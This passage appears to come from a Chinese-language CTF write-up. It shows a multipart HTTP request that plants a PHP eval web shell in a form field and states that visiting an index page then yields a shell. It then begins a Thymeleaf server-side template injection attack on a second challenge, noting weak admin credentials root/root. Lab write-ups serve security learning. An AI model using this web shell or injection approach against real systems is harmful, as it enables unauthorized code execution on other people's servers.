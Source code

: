 ```
------WebKitFormBoundary5emL5TBetpBt96A2
Content-Disposition: form-data; name="content[404]"

<?php phpinfo();eval($_REQUEST[1]);?>
------WebKitFormBoundary5emL5TBetpBt96A2
Content-Disposition: form-data; name="files"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundary5emL5TBetpBt96A2
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundary5emL5TBetpBt96A2
Content-Disposition: form-data; name="cover"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundary5emL5TBetpBt96A2
Content-Disposition: form-data; name="email"

info@railway.com
------WebKitFormBoundary5emL5TBetpBt96A2
Content-Disposition: form-data; name="contact"

09854698789 / 78945632
------WebKitFormBoundary5emL5TBetpBt96A2
Content-Disposition: form-data; name="address"

XYZ Street, There City, Here, 2306
------WebKitFormBoundary5emL5TBetpBt96A2--

```

![image-20230201115553946](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302011155043.png)

访问 `/index.php?page=xxx` 即可 getshell

## template

springboot 1.4.1 + thymeleaf 2.1.5

后台弱口令 root/root

根据题目名称猜测思路是 thymeleaf ssti

参考文章: [https://www.anquanke.com/post/id/254519](https://www.anquanke.com/post/id/254519)

有两种利用点, 一种是 return 语句部分可控, 另一种是方法返回值为 void, 但是传入的参数可控, 并且没有使用 `@ResponseBody` 注解

查找后发现 `com.admin.interfaces.web.UserController#logout` 方法
